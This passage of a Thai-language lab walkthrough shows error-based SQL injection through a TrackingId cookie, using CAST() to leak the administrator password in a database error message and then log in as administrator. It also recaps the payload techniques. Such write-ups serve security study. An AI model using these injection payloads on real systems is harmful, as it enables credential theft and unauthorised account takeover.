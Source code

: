## ขั้นตอนที่ 17: ดึง Password ของ Administrator

**แก้ไข query เพื่อดึง password:**
```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

**ผลลัพธ์:**
```
ERROR: invalid input syntax for type integer: "[password ของ administrator]"
```
🎉 **ได้ password แล้ว!**

## ขั้นตอนที่ 18: เข้าสู่ระบบ

**ใช้ข้อมูลที่ได้เข้าสู่ระบบ:**
- Username: `administrator`
- Password: `[password ที่ได้จาก error message]`

---

## สรุปเทคนิคสำคัญที่ใช้

### 1. การจัดการ Character Limit
```
# จากเดิม
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--

# เป็น
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

### 2. การใช้ CAST() เพื่อดึงข้อมูล
```sql
CAST((SELECT [column] FROM [table] LIMIT 1) AS int)
```

### 3. การแก้ปัญหา Multiple Rows
```sql
SELECT username FROM users LIMIT 1  -- ดึงแค่แถวแรก
```

### 4. Boolean Expression ที่ถูกต้อง
```sql
AND 1=CAST(...)  -- ไม่ใช่แค่ AND CAST(...)
```

## ข้อดีของเทคนิคนี้

1. **รวดเร็ว** - ได้ข้อมูลทันทีจาก error message
2. **ประหยัดที่ว่าง** - ใช้ query สั้นๆ เมื่อมีข้อจำกัดตัวอักษร  
3. **ชัดเจน** - เห็นข้อมูลจริงใน error message
4. **ไม่ต้องเดา** - ไม่ต้องทำ brute force ทีละตัวอักษร
